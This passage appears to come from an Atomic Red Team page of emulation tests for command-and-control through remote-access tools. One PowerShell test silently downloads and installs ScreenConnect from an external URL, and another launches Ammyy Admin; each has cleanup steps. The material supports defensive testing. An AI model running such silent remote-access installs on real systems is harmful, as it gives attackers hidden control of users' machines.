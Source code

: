 




#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$installer = "C:\Users\$env:username\Downloads\ScreenConnect.msi"
Invoke-WebRequest -OutFile $installer "https://d1kuyuqowve5id.cloudfront.net/ScreenConnect_21.11.4237.7885_Release.msi"
msiexec /i $installer /qn
```

#### Cleanup Commands:
```powershell
$installer = "C:\Users\$env:username\Downloads\ScreenConnect.msi"
msiexec /x $installer /qn
```





<br/>
<br/>

## Atomic Test #6 - Ammyy Admin Software Execution
An adversary may attempt to trick the user into downloading Ammyy Admin Remote Desktop Software for use as a C2 channel. 
Upon successful execution, Ammyy Admin will be executed.

**Supported Platforms:** Windows


**auto_generated_guid:** 0ae9e327-3251-465a-a53b-485d4e3f58fa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| Ammyy_Admin_Path | Path of Ammyy Admin executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;ammyy.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Start-Process "#{Ammyy_Admin_Path}"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "Ammyy" -force -erroraction silentlycontinue
```
